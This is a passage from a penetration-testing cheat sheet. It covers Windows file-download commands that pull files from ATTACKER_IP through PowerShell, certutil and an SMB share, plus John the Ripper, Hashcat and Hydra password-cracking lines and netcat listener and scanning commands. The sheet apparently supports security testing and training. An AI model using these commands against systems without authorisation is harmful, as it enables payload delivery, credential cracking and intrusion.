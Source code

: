 #### Windows
```powershell
# PowerShell download
powershell -c "(New-Object Net.WebClient).DownloadFile('http://ATTACKER_IP/file','C:\temp\file')"

# Certutil
certutil -urlcache -f http://ATTACKER_IP/file file

# SMB
# On attacker (Linux)
impacket-smbserver share . -smb2support
# On target (Windows)
copy \\ATTACKER_IP\share\file C:\temp\
```

### Password Cracking Tools
```bash
# John the Ripper
john --wordlist=rockyou.txt hash.txt
john --show hash.txt

# Hashcat
hashcat -m 0 hash.txt rockyou.txt  # MD5
hashcat -m 1000 hash.txt rockyou.txt  # NTLM
hashcat -m 1800 hash.txt rockyou.txt  # SHA-512

# Hydra
hydra -l admin -P rockyou.txt target.com http-post-form

# CrackStation (online)
# https://crackstation.net/
```

### Network Tools
```bash
# Netcat listener
nc -lvnp 4444

# Port scanning
nc -zv target.com 1-1000

# Banner grabbing
nc target.com 80

# Proxychains
proxychains nmap -sT target.com
```

---

## Common Hash Types
